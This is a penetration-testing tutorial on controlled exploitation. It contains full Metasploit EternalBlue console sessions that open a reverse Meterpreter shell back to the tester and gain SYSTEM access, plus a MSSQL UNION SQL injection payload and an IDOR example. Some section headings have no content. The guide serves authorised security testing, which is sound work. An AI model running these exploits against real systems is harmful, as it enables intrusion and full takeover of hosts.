

# 📌 Exploitation and Weaponisation

## From Vulnerability Discovery to Exploitation

### Deciding Whether to Exploit

Not every vulnerability needs to be exploited to prove its impact. A missing security header doesn't require a detailed demonstration. An exposed server banner doesn't require active exploitation.

If the risk is clear without the need for exploitation, document it and move on. If the impact requires a demonstration to be credible, perform the minimum level of exploitation needed to prove the point.

### Practical Examples

#### Network Finding

During an internal network test, an Nmap scan identifies a Windows 7 host with SMB running on port 445. The OS version and patch level hint potential exposure to MS17-010.

Before loading any exploit, you run the Metasploit scanner module against the target.

```bash
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 > auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 10.0.0.5
RHOSTS => 10.0.0.5
msf6 auxiliary(scanner/smb/smb_ms17_010) > run
[+] 10.0.0.5:445 - Host is likely VULNERABLE to MS17-010!
[*] 10.0.0.5:445 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_ms17_010) >
```

The scanner confirms that the host is vulnerable. You now have grounds to proceed with controlled exploitation, and you understand exactly what you're working with before launching the exploit module.

#### Web Application Finding

A web application displays bank account details at `/accounts/12345/summary`. You are authenticated as a test user with account ID 12345.

You change the ID to `12346` in the request and send it. The application returns another user's account summary, and you've confirmed the presence of an IDOR vulnerability. You've reproduced the issue, you understand the preconditions, and you now know how to exploit it in a controlled and repeatable way.



## Controlled Exploitation Techniques


### Document as You Go


Documenting as you go helps in two ways. It maps out your reproduction steps for later, and it gives you a clearer picture of what evidence you actually need to capture. Saving request and response pairs from Burp Suite and terminal output from executed commands makes the whole documentation process easier. Having a full draft of the finding details after exploitation will prevent you from having to piece everything together, which could require additional evidence gathering and reproduction of the steps again.

When something works, take a screenshot, save the request, note the timestamp, and move on. If you're chaining vulnerabilities, document each link as you go.

Good evidence does not mean many screenshots. The request that triggered the vulnerability, the response that confirmed it, a timestamp, and context for another tester to reproduce it are good enough for the report. Before-and-after screenshots beat twenty that need more explaining.

### Example: Network Exploitation

MS17-010 has been confirmed on an internal Windows 7 host using the scanner module. You load the exploit, set your target and payload, and run it.


```bash
           msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 10.0.0.5
RHOST => 10.0.0.5
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.0.0.100
LHOST => 10.0.0.100
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 10.0.0.100:4444
[+] 10.0.0.5:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.0.0.5:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 10.0.0.5:445     - Scanned 1 of 1 hosts (100% complete)
[+] 10.0.0.5:445 - The target is vulnerable.
[+] 10.0.0.5:445 - Connecting to target for exploitation.
[+] 10.0.0.5:445 - Connection established for exploitation.
[+] 10.0.0.5:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.0.0.5:445 - CORE raw buffer dump (38 bytes)
[*] 10.0.0.5:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61   Windows 7 Ultima
[*] 10.0.0.5:445 - 0x00000010 74 65 20 37 36 30 31 20 53 65 72 76 69 63 65 20   te 7601 Service
[*] 10.0.0.5:445 - 0x00000020 50 61 63 6b 20 31                                 Pack 1
[+] 10.0.0.5:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.0.0.5:445 - Trying exploit with 12 Groom Allocations.
[*] 10.0.0.5:445 - Sending all but last fragment of exploit packet
[*] Sending stage (203846 bytes) to 10.0.0.5
[*] Meterpreter session 1 opened (10.0.0.100:4444 -> 10.0.0.5:49306) at 2026-04-10 13:12:17 +0530
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

You receive a Meterpreter session. You run `getuid` to confirm you're operating as `NT AUTHORITY\SYSTEM`. That's all the proof that you need to demonstrate the impact.


### Example: Web Application Exploitation


SQL injection has been confirmed on a search parameter in a web application running MSSQL. You need to understand the execution context to determine how serious this finding is.

First, confirm the database platform and the current user context using the following payload:


`' UNION SELECT NULL, @@version, SYSTEM_USER, NULL --`


## Context-Aware Weaponisation


## Tools in Context


### Metasploit Framework

Metasploit is a framework that is commonly used for network exploitation. It includes auxiliary modules for scanning and confirmation, exploit modules for exploiting vulnerabilities, and post-exploitation modules for interacting with compromised systems.

The rule of thumb is to verify before you exploit. Use the auxiliary scanner to confirm that a vulnerability is present before running the exploit module. This is important to keep in mind for exploits that can cause service disruptions, such as EternalBlue, which can crash a target if the payload doesn't land cleanly.


```bash
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOST 10.0.0.5
RHOST => 10.0.0.5
msf6 auxiliary(scanner/smb/smb_ms17_010) > run
[+] 10.0.0.5:445 - Host is likely VULNERABLE to MS17-010!
[*] 10.0.0.5:445 - Scanned 1 of 1 hosts (100% complete)
msf6 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 10.0.0.5
RHOST => 10.0.0.5
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.0.0.100
LHOST => 10.0.0.100
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 10.0.0.100:4444
[*] Meterpreter session 1 opened (10.0.0.100:4444 -> 10.0.0.5:49158)
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

When you establish a session, only run the minimum commands needed to prove the impact. Meterpreter provides a broad range of post-exploitation activities. However, using it beyond what is necessary puts you at risk of over-exploitation and reaching out-of-scope areas.

### Burp Suite


